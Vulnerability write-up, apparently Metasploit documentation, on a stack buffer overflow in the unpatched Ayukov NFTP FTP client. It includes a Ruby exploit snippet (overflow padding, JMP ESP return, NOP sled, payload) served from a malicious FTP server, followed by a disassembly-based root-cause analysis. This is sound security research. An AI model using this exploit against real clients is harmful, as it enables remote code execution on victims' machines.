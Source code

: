 ## Vulnerable Application

Ayukov is an FTP client that was written by Sergey Ayukov back in 1994. Development stopped in
2011, and it is vulnerable to a stack-based buffer overflow vulnerability due to the way it
handles the server input.

The exploit was tested on Windows XP SP3 (English).

The vulnerable copy can be [downloaded from Exploit-DB](https://www.exploit-db.com/apps/a766d928899200ed6a21f7c790b5cbe5-nftp-1.71-i386-win32.exe).

### PoC

A submission was made to Metasploit as [PR #9360](https://github.com/rapid7/metasploit-framework/pull/9360). Here's an example of how to crash the FTP client:

```ruby
  # Let the client log in
  client.get_once

  user = "331 OK.\r\n"
  client.put(user)

  client.get_once
  pass = "230 OK.\r\n"
  client.put(pass)

  sploit = "A"*4116
  sploit << [target.ret].pack('V') # JMP ESP here
  sploit << "\x90"*16
  sploit << payload.encoded
  sploit << "C" * (15000 - 4116 - 4 - 16 - payload.encoded.length)
  sploit << "\r\n"

  client.put(sploit)

  client.get_once
  pwd = "257\r\n"
  client.put(pwd)
  client.get_once
```

### Root Cause Analysis

When serving the PoC against the vulnerable app, the client's command prompt shows:

```
12:28:43 331 OK.
12:28:43 USER anonymous
12:28:43 230 OK.
12:28:43 Successfully logged in as 'anonymous@192.168.0.12'
12:28:43 SYST
12:28:43 .................. Lots of AAAAAs here .....................
12:28:43 TYPE I
12:28:43 257
```

The interesting part here is that when the client sends a ```SYST``` request, the server responds
with a long string of data attempting to cause a crash. This would be a good starting point to
investigate the root cause.

With IDA Pro, we can tell that the ```SYST``` string is at the following location:

```
.text:004096B6 ; char aSyst[]
.text:004096B6 aSyst           db 'SYST',0             ; DATA XREF: sub_409978+B8Co
```

When we cross reference, we can tell this is used by the ```OpenControlConnection``` function.
Although there is no symbol to identify the actual function name "OpenControlConnection", the
debugging message at the beginning of the function is a big hint:

```C
int __usercall OpenControlConnection@<eax>(int a1@<ebx>, int a2@<edi>, int a3@<esi>)
{
  sub_45AF40(savedregs);
  *(_DWORD *)&name.sa_data[10] = a2;
  *(_DWORD *)&name.sa_data[6] = a3;
  *(_DWORD *)&name.sa_data[2] = a1;
  if ( !dword_477AEC )
    sub_419B4C(1);
  while ( 1 )
  {
    while ( 1 )
    {
      do
      {
        sub_403484("begin OpenControlConnection()\n", charResBuffer[4088]);
        ...
```

Anyway, inside the OpenControlConnection function, we can see that the ```SYST``` command is
requested here for SendFTPRequest (no symbol of clue of the name, I just decided to name it this
way):

```
.text:0040A504                 push    offset aSyst    ; "SYST"
.text:0040A509                 lea     eax, [ebp+charResBuffer]
.text:0040A50F                 push    eax             ; charResBuffer
.text:0040A510                 lea     eax, [ebp+args]
.text:0040A516                 push    eax             ; int
.text:0040A517                 push    0               ; int
.text:0040A519                 call    SendFTPRequest
```

Inside the SendFTPRequest function, it looks like this:

```C
int SendFTPRequest(int a1, int arg_4, char *charResBuffer, char *Format, ...)
{
  char *v4; // ebx@0
  int v5; // edi@0
  int v6; // esi@0
  char *v7; // edx@1
  char Dst[16384]; // [esp+18h] [ebp-4000h]@2
  char *savedregs; // [esp+4018h] [ebp+0h]@1
  va_list va; // [esp+4030h] [ebp+18h]@1

  va_start(va, Format);
  sub_45AF40(savedregs);
  savedregs = v4;
  v7 = Format;
  if ( Format )
  {
    v4 = Dst;
    // This actually checks the input for the FTP command from the client.
    // The 0x4000u indicates the string should not be longer than that, otherwise
    // there will be a buffer overflow warning in this function.
    snprintf1(Dst, 0x4000u, Format, va);
    v7 = Dst;
  }
  return SendReceive((int)v4, v5, v6, a1, arg_4, charResBuffer, v7);
}
```

We were able to tell the second argument for ```SendFTPRequest``` is actually a buffer for receiving
the server's response, because the way it is used:

```C
result = SendFTPRequest(0, (int)args, charResBuffer, "SYST");
if ( result == -4 )
  return result;
if ( result )
  goto LABEL_231;
if ( *(_DWORD *)args == 2 )
{
  sub_445CEC(charResBuffer);
  if ( strstr(charResBuffer, "unix") )
  {
    if ( strstr(charResBuffer, "powerweb") )
    {
      *(_DWORD *)dword_47B1E0 = 6;
      goto LABEL_206;
    }
  }
...
```

In addition, this buffer is actually on the stack, and it's 4096 long:

```
-00001010 charResBuffer   db 4096 dup(?)
```

This means that if the server responds with something longer than 4096 bytes for the ```SYST``` request,
the data may corrupt the stack, and cause a stack-based buffer overflow. At the end of
```OpenControlConnection```, the ```RETN``` ends up loading the corrupt data, which may lead to
arbitrary code execution:

```
.text:0040AC39                 lea     esp, [ebp-2048h]
.text:0040AC3F                 pop     ebx
.text:0040AC40                 pop     esi
.text:0040AC41                 pop     edi
.text:0040AC42                 leave
.text:0040AC43                 retn
```

Since whoever is using ```SendFTPRequest``` is responsible for providing the buffer of the server
response, and there are 47 other cross-references, it is possible there are different ways to
trigger the same bug. And since it doesn't look like there is a patch (because the product is
no longer in active development, from the exploit developer's perspective, it is not necessary
to look for other ways to exploit it).
